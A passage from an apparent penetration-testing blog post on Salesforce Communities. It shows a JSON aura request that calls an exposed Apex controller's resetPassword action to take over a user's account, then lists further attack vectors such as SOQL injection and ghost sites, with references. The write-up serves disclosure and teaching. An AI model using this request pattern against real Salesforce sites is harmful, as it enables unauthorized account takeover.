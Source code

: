 ![]({{page.screenshots}}salesforce-changepassword.png)<br>
*`changePassword` method contained inside `CA_ChangePasswordSettingController`*

Since I was running the tests on production sites, I immediately reached out to the Communities maintainers, explaining to them the issue and the possible critical impacts. They provided me with a sample userID with which I can test the functionality.

Having everything required, I used the descriptor to replicate a valid aura call to the Apex controller `CA_ChangePasswordSettingController`, and finally reset the user's password and took over his account.

```json
{
  "actions": [
    {
      "id": "123;a",
      "descriptor": "apex://CA_ChangePasswordSettingController/ACTION$resetPassword",
      "callingDescriptor": "UNKNOWN",
      "params": {
        "userID": "0056<REDACTED>M",
        "newPassword": "RT-wofnwo2!$4nfi!"
      }
    }
  ]
}
```

![]({{page.screenshots}}salesforce-passwordreset.png)
*User's password successfully reset* 

This vulnerability could have had a *massive* impact. Even though custom controllers are pretty straightforward to find, they are often overlooked during Salesforce penetration tests because not every tester knows this particular attack vector. 


## Other attack vectors and interesting cases

In addition to the permission problems on standard and custom objects, the exposure of custom controllers, and the classic web vulnerabilities like XSS and unsecured APIs, there are other attack vectors that I did not find directly during testing but have read about online and will list below:
- SOQL Injection [^soql-injection-doc] [^soql-injaection-lab] [^soql-injection] [^2nd-order-soqlinjection] and Blind SOQL Injection [^blind-soql] [^soql-subquery-blind]
- ["Without sharing" Apex vulnerability](https://www.varonis.com/blog/apex-code-vulnerabilities#:~:text=Apex%20vulnerabilities), varonis.com
- [Ghost Sites: Stealing Data From Deactivated Salesforce Communities](https://www.varonis.com/blog/salesforce-ghost-sites), varonis.com
- [The Top 20 Vulnerabilities Found in the AppExchange Security Review](https://developer.salesforce.com/blogs/2023/08/the-top-20-vulnerabilities-found-in-the-appexchange-security-review), developer.salesforce.com
- [Undocumented descriptors and endpoints](https://www.varonis.com/blog/abusing-salesforce-communities#:~:text=Other%20undocumented%20endpoints), varonis.com


[^soql-injection-doc]: [SOQL Injection](https://developer.salesforce.com/docs/atlas.en-us.apexcode.meta/apexcode/pages_security_tips_soql_injection.htm), developer.salesforce.com
[^soql-injection]: [SQL Injection Union Based](https://hackerone.com/reports/1046084), hackerone.com
[^2nd-order-soqlinjection]: [Second-order SOQL injection through email and campaign name parameter](https://hackerone.com/reports/1039821), heckerone.com
[^soql-injaection-lab]: [SOQL Injection Lab.](https://infosecwriteups.com/soql-injection-b2c2c624cbbb), infosecwriteups.com
[^blind-soql]: [Blind SOQL Injection](https://appomni.com/ao-labs/lightning-components-a-treatise-on-apex-security-from-an-external-perspective/#:~:text=public%20or%20not.-,Blind%20SOQL%20Injection,-Basic%20SOQL%20injection), appomni.com
[^soql-subquery-blind]: [SOQL subquery blind attack](https://www.varonis.com/blog/manipulating-salesforce-public-links#:~:text=SOQL%20subquery%20blind%20attack%C2%A0), varonis.com 


[^1]: [Salesforce Lightning: The Future of Sales and CRM](https://www.salesforce.com/eu/campaign/lightning/), salesforce.com
[^2]: [Lightning Platform: Building blocks of better apps](https://www.salesforce.com/eu/products/platform/lightning/), salesforce.com
[^std-objects]: [Standard Objects](https://developer.salesforce.com/docs/atlas.en-us.object_reference.meta/object_reference/sforce_api_objects_list.htm), developer.salesforce.com
[^custom-objects]: [Custom Objects](https://developer.salesforce.com/docs/atlas.en-us.object_reference.meta/object_reference/sforce_api_custom_objects_list.htm), developer.salesfroce.com
[^salesforce-objects]: [Overview of Salesforce Objects and Fields](https://developer.salesforce.com/docs/atlas.en-us.object_reference.meta/object_reference/sforce_api_objects_concepts.htm), developer.salesforce.com
[^aura-comp]: [Aura Components](https://developer.salesforce.com/docs/atlas.en-us.lightning.meta/lightning/intro_components.htm), developer.salesforce.com
[^salesforce-targets]: [Salesforce Recon Process](https://www.enumerated.ie/index/salesforce#recon%20process), enumerated.ie
[^gau]: [gau](https://github.com/lc/gau), github.com
[^waymore]: [waymore](https://github.com/xnl-h4ck3r/waymore), github.com
[^resp-grep]: [Response Grepper](https://portswigger.net/bappstore/665178d3bf494019b3e8fe53a133528b), portswigger.net
[^appomni]: [Retrieving the markup descriptor of custom Components](https://appomni.com/ao-labs/lightning-components-a-treatise-on-apex-security-from-an-external-perspective/#:~:text=Retrieving%20the%20markup%20descriptor%20of%20custom%20Components), appomni.com
[^getobjectinfo]: [`getObjectInfo`](https://developer.salesforce.com/docs/platform/lwc/guide/reference-wire-adapters-object-info.html), developer.salesforce.com
[^get-record]: [`getRecord`](https://developer.salesforce.com/docs/platform/lwc/guide/reference-wire-adapters-record.html?q=getRecord), developer.salesforce.com
[^nuclei-template]: [salesforce-aura.yaml](https://github.com/projectdiscovery/nuclei-templates/blob/main/http/misconfiguration/salesforce-aura.yaml), github.com
[^nuclei-template2]: [salesforce-misconfiguration.yaml](https://github.com/JoshMorrison99/my-nuceli-templates/blob/main/salesforce-misconfiguration.yaml), github.com